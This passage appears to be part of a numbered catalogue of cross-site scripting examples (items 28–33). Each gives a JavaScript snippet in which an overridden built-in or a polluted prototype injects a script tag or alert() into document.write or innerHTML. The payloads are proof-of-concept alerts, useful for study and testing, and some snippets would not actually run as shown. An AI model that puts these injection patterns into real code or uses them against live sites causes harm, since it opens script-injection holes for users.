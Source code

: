 
### 28. Polluted Array Prototype Map
**Scenario**: Polluted `map` method injects script.
```javascript
Array.prototype.map = function() { return ['<script>alert("XSS")</script>']; };
const arr = [1, 2];
document.write(arr.map(x => x)[0]); // XSS
```

---

### 29. Polluted Object.assign
**Scenario**: Polluted `Object.assign` injects malicious properties.
```javascript
Object.assign = function(target) { target.xss = '<script>alert("XSS")</script>'; return target; };
const obj = Object.assign({}, {});
document.body.innerHTML = obj.xss; // XSS
```

---

### 30. Polluted JSON.stringify
**Scenario**: Polluted `stringify` output rendered unsafely.
```javascript
JSON.stringify = () => '<script>alert("XSS")</script>';
const obj = {};
document.write(JSON.stringify(obj)); // XSS
```

---

### 31. Polluted Fetch Response
**Scenario**: Polluted response property rendered in DOM.
```javascript
Object.prototype.text = async () => '<script>alert("XSS")</script>';
const res = {};
document.body.innerHTML = await res.text(); // XSS
```

---

### 32. Polluted History State
**Scenario**: Polluted state object rendered unsafely.
```javascript
Object.prototype.state = '<script>alert("XSS")</script>';
history.pushState({}, '', '/');
document.write(history.state.state); // XSS
```

---

### 33. Polluted Canvas Context
**Scenario**: Polluted canvas property affects rendering.
```javascript
Object.prototype.fillText = function() { alert('XSS'); };
const ctx = document.createElement('canvas').getContext('2d');
ctx.fillText('test', 0, 0); // XSS
```

---